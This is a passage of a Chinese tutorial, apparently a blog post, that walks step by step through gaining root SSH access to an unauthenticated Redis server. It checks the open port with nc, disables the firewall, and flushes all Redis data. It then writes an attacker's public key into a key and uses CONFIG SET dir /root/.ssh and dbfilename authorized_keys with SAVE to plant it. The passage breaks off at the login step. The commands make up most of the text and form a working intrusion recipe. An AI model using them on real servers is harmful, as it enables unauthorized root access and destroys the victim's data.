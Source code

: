```
sudo netstat -ltpn | grep 6379
```

![](https://user-gold-cdn.xitu.io/2019/6/26/16b9134c20789333?w=1650&h=120&f=jpeg&s=54935)

可以看到 redis 服务器默认监听 0.0.0.0:6379，表示允许任意来源的连接 6379 端口，可以在另外一台机器使用 telnet 或者 nc 访问此端口，如果成功连接，可以输入 ping 看是否返回 pong。

```
nc c4 6379
ping
+PONG
```

注意 Centos7 上默认启用了防火墙，会禁止访问某些端口，可以下面的方式禁用。

```
sudo systemctl stop firewalld.service
```

4、客户端使用 ssh-keygen 生成公钥，不停按 enter，不出意外马上在`~/.ssh`生成了目录生成了公私钥文件

```
ssh-keygen

ll ~/.ssh
ya@c2 ~$ ll .ssh
-rw-------. 1 ya ya 1.7K 4月  14 03:00 id_rsa
-rw-r--r--. 1 ya ya  387 4月  14 03:00 id_rsa.pub
```

5、将客户端公钥写入到文件 foo.txt 中以便后面写入到 redis，其实是生成一个头尾都包含两个空行的公钥文件

```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
```

6、先清空 Redis 存储所有的内容，将 foo.txt 文件内容写入到某个 key 中，这里为 crackit，随后调用 redis-cli 登录 redis 调用 config 命令设置文件 redis 的 dir 目录和把 rdb 文件的名字dbfilename 设置为 authorized\_keys。

```
redis-cli -h 10.211.55.12 echo flushall
cat foo.txt | redis-cli -h 10.211.55.12 -x set crackit

// 登录 Redis
redis-cli -h 10.211.55.12

config set dir /root/.ssh

config set dbfilename "authorized_keys"
```

7、执行 save 将 crackit 内容 落盘

```
save
```

8、尝试登录
